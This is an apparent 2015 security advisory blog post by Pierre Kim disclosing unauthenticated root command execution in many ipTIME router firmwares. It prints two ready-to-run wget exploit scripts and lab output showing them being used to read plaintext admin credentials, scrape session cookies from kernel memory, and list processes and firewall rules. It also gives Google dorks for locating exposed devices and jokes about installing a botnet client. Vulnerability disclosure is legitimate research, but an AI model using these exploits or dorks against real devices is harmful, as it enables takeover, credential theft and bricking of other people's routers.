







Disclaimer
This advisory is licensed under a Creative Commons Attribution Non-Commercial
Share-Alike 3.0 License: http://creativecommons.org/licenses/by-nc-sa/3.0/
As stated in the precedent advisories, ipTIME firmwares prior to 9.58 version are vulnerable to a remote code execution which gives root privileges.
From product_db extracted from a live ipTIME system, it concerns at least these devices:
g1 g104a g104be g104i g104m g501 i1601 ic416 ic426 in524 ip0526 ip300 ip409 ip410 ip416 ip418 ip419
ip422 ip449 ip802 ip803 n104 n104a n104i n104m n2 n3004 n5004 n504 n6004 n604 n604i n604m n7004
n704 n704m nx505 q1 q304 q504 t1004 t1008 t2008 tq204 tv104 tv108 tv116 tv124 x1005 x3003 x5007 z54g
By analysis updated firmwares, in total 127 devices were affected:
a1004 a1004v a104 a104ns a104r a2004 a2004ns a2004r a2008 a3004 a3004ns a5004ns a604 a604v extac extd2
g1 g104 g104a g104be g104i g104m g204 g501 g504 ipsmart mini mobap1 multi n1 n104 n104a n104ar1 n104i
n104k n104ktt n104m n104p n104q n104r n104r3 n104rsk n104s n104sr1 n104t n104v n104vlg n1e n1eky n1p
n2 n2e n2p n3004 n5 n5004 n504 n5r1 n6004 n6004m n6004r n604 n604a n604i n604m n604p n604r n604s
n604t n604v n604vlg n608 n7004ns n702bcm n704 n704a n704a3 n704bcm n704lg n704m n704mlg n704ns
n704s n704v n704v3 n8004 n8004r n8004v n804 n804a n804a3 n804t n804t3 n804v n904 n904ns n904v
ng104 ng304 ntq104 ntv108 ntv116 ntv124 q1 q304 q504 q604 t1004 t1008 t16000 t2008 t24000 t3004
t3008 timeve tq204 tv104 v1016 v1024 v304 v308 v504 wre1 x3003 x3007 x5007 x6003
Here are the working exploits:
Exploit against the firmwares in ALL versions from 2008 to 2015 - until 9.50 firmware:
$ cat iptime.carnage.l2
#!/bin/sh
if [ ! $1 ]; then
echo "Usage:"
echo $0 ip command
exit 1
fi
wget -qO- --post-data="echo 'Content-type: text/plain
'; PATH=$PATH:/sbin $2 $3 $4" http://$1/cgi-bin/sh
$
Exploit against firmware v9.52:
$ cat iptime.carnage.l2.v9.52
#!/bin/sh
if [ ! $1 ]; then
echo "Usage:"
echo $0 ip command
exit 1
fi
wget -qO- --post-data="echo 'Content-type: text/plain
'; PATH=$PATH:/sbin:/bin $2 $3 $4" http://$1/sess-bin/sh
$
Now we test the exploits in my lab!
How to retrieve the credentials ? (see login and password at the end of the text file)
An online JavaScript POC is available here. - (exploit for version 9.52)

Using CLI:
kali# ./iptime.carnage.l2.v9.52 192.168.0.1 cat /tmp/etc/iconfig.cfg
wantype.wan1=dynamic
dhblock.eth1=0
ppp_mtu=1454
fakedns=0
upnp=1
ppp_mtu=1454
timeserver=time.windows.com,gmt23,1,540,0
wan_ifname=eth1
auto_dns=1
dhcp_auto_detect=0
wireless_ifmode+wlan0=wlan0,0
dhcpd=1
lan_ip=192.168.0.1
lan_netmask=255.255.255.0
dhcpd_conf=br0,192.168.0.2,192.168.0.254,192.168.0.1,255.255.255.0
dhcpd_dns=164.124.101.2,168.126.63.2
dhcpd_opt=7200,30,200,
dhcpd_configfile=/etc/udhcpd.conf
dhcpd_lease_file=/etc/udhcpd.leases
dhcpd_static_lease_file=/etc/udhcpd.static
http_auth=session
use_captcha=1
login=test
password=test
org_hwaddr.eth1=90:9F:XX:XX:XX
nat_passthrough=0
kali#
Login and password are stored in plaintext, which is a very bad security practice.
Listing of the filesystem
An online JavaScript POC is available here. - (exploit for version 9.52)

Current running process:
An online JavaScript POC is available here. - (exploit for version 9.52)

Using CLI:
kali# ./iptime.carnage.l2.v9.52 192.168.0.1 ps -auxww
PID Uid VmSize Stat Command
1 root 720 S init single
2 root SW [keventd]
3 root RWN [ksoftirqd_CPU0]
4 root SW [kswapd]
5 root SW [bdflush]
6 root SW [kupdated]
7 root SW [mtdblockd]
252 root 1176 S /sbin/dhcpd
270 root 436 S apcpd
272 root 432 S /sbin/iptables-q
299 root 372 S /bin/wscd -start -c /var/wsc.conf -w wlan0 -fi /var/w
303 root 260 S /bin/iwcontrol wlan0
463 root 684 S httpd
496 root 288 S /bin/sh
498 root 300 R ps -auxww
kali#
Getting the kernel memory:
An online POC is available here. - (exploit for version 9.52)

Using CLI:
./iptime.carnage.l2.v9.52 192.168.0.1 cat /proc/kcore
The device runs Linux 2.4.18, 12 year old Linux, full of CVEs (local AND remote):
<4>Linux version 2.4.18-MIPS-01.00 (rtlwl@ski) (gcc version 3.4.6-1.3.6) #128 Tue Feb 10 10:57:17 KST 2015
<4>early printk enabled
<4>Determined physical RAM map:
<4> memory: 01000000 @ 00000000 (usable)
<4>On node 0 totalpages: 4096
<4>zone(0): 4096 pages.
<4>zone(1): 0 pages.
<4>zone(2): 0 pages.
<4>Kernel command line: root=/dev/mtdblock1 console=0 single
<4>Calibrating delay loop... 399.76 BogoMIPS
<4>Memory: 9500k/16384k available (2310k kernel code, 6884k reserved, 416k data, 60k init, 0k highmem)
<4>Dentry-cache hash table entries: 2048 (order: 2, 16384 bytes)
<4>Inode-cache hash table entries: 1024 (order: 1, 8192 bytes)
<4>Mount-cache hash table entries: 512 (order: 0, 4096 bytes)
<4>Buffer-cache hash table entries: 1024 (order: 0, 4096 bytes)
<4>Page-cache hash table entries: 4096 (order: 2, 16384 bytes)
Grabbing the valid HTTP authentication cookies:
kali# ./iptime.carnage.l2.v9.52 192.168.0.1 cat /proc/kcore | strings | grep Cookie
Cookie: efm_session_id=iNYV3r097DPbMDWu
Cookie: efm_session_id=iNYV3r097DPbMDWu
Cookie: efm_session_id=i3HJh4V15YLkf2l2
Cookie: efm_session_id=i3HJh4V15YLkf2l2
Cookie: efm_session_id=iNYV3r097DPbMDWu
Cookie: efm_session_id=iNYV3r097DPbMDWu
Cookie: efm_session_id=i3HJh4V15YLkf2l2
Cookie: efm_session_id=i3HJh4V15YLkf2l2
Cookie: efm_session_id=i3HJh4V15YLkf2l2
Cookie: efm_session_id=iNYV3r097DPbMDWu
Cookie: efm_session_id=iNYV3r097DPbMDWu
Cookie: efm_session_id=iNYV3r097DPbMDWu
Default firewall rules:
An online JavaScript POC is available here. - (exploit for version 9.52)

Using CLI:
kali# ./iptime.carnage.l2.v9.52 192.168.0.1 iptables -nL
Chain INPUT (policy DROP)
target prot opt source destination
DROP 47 -- 0.0.0.0/0 0.0.0.0/0
DROP tcp -- 0.0.0.0/0 0.0.0.0/0 tcp dpt:1723
radius2g all -- 0.0.0.0/0 0.0.0.0/0
ACCEPT tcp -- 0.0.0.0/0 0.0.0.0/0 tcp spt:25
ACCEPT tcp -- 0.0.0.0/0 0.0.0.0/0 tcp dpt:80
ACCEPT icmp -- 0.0.0.0/0 0.0.0.0/0
ACCEPT udp -- 0.0.0.0/0 0.0.0.0/0 udp dpts:67:68
ACCEPT udp -- 0.0.0.0/0 0.0.0.0/0 udp spt:53
ACCEPT tcp -- 0.0.0.0/0 0.0.0.0/0 tcp spt:80
ACCEPT udp -- 0.0.0.0/0 0.0.0.0/0 udp spt:36500
ACCEPT udp -- 0.0.0.0/0 0.0.0.0/0 udp dpts:33434:33600
ACCEPT icmp -- 192.168.0.1 192.168.0.1 icmp type 8
Chain FORWARD (policy ACCEPT)
target prot opt source destination
TCPMSS tcp -- 0.0.0.0/0 0.0.0.0/0 tcp flags:0x06/0x02 TCPMSS clamp to PMTU
app_filter all -- 0.0.0.0/0 0.0.0.0/0
app_forward all -- 0.0.0.0/0 0.0.0.0/0
Chain OUTPUT (policy ACCEPT)
target prot opt source destination
Chain app_filter (1 references)
target prot opt source destination
Chain app_forward (1 references)
target prot opt source destination
Chain ext_accesslist (0 references)
target prot opt source destination
DROP tcp -- 0.0.0.0/0 0.0.0.0/0 tcp dpt:80
Chain int_accesslist (0 references)
target prot opt source destination
RETURN all -- 0.0.0.0/0 192.168.255.250
RETURN all -- 0.0.0.0/0 192.168.255.1
DROP tcp -- 0.0.0.0/0 0.0.0.0/0 tcp dpt:80
Chain plantynet (0 references)
target prot opt source destination
plantynet_free all -- 0.0.0.0/0 0.0.0.0/0
QUEUE tcp -- 0.0.0.0/0 0.0.0.0/0 multiport dports 80,8080
Chain plantynet_free (1 references)
target prot opt source destination
Chain radius2g (1 references)
target prot opt source destination
Chain upnp (0 references)
target prot opt source destination
Opening the management interface on the WAN:
An online JavaScript POC is available here. - (exploit for version 9.52)

Architecture:
An online JavaScript POC is available here. - (exploit for version 9.52)

Using CLI:
kali# ./iptime.carnage.l2.v9.52 192.168.0.1 cat /proc/cpuinfo
system type : Philips Nino
processor : 0
cpu model : R3000 V0.0
BogoMIPS : 399.76
wait instruction : yes
microsecond timers : no
tlb_entries : 32
extra interrupt vector : no
hardware watchpoint : no
VCED exceptions : not available
VCEI exceptions : not available
ll emulations : 0
sc emulations : 0
Reboot the device:
An JavaScript online POC is available here. - (exploit for version 9.52)

Brick the device:
An online POC is available here. - (exploit for version 9.52)
By the way, d.cgi in /bin/ is an intentional backdoor from ipTIME.
Uploading and executing a botnet client is left as an exercise to the reader.
More fun from iptime products is coming ~~~
Follow me on Twitter @PierreKimSec.
Google Dork:
inurl:timepro.cgi
iptime.org ddns
inurl:iptime.org
published on 2015-07-01 00:00:00 by Pierre Kim <pierre.kim.sec@gmail.com>
Older Posts
| Date | Title |
|---|---|
| 2015-06-23 00:00:00 | Small monitoring system using Freemobile |
| 2015-06-09 00:00:00 | Recovering Windows on a "Windows-free" LG laptop |
| 2015-05-05 00:00:00 | ERRATA - 127 ipTIME Routers/WiFi APs/Modems/Firewalls models vulnerable with RCE with root privileges |
| 2015-04-20 00:00:00 | 112 ipTIME Routers/WiFi APs/Modems/Firewalls models vulnerable with RCE with root privileges |
| 2015-04-08 00:00:00 | CVE-2015-1415 |
| 2015-04-07 00:00:00 | Annyeong haseyo! |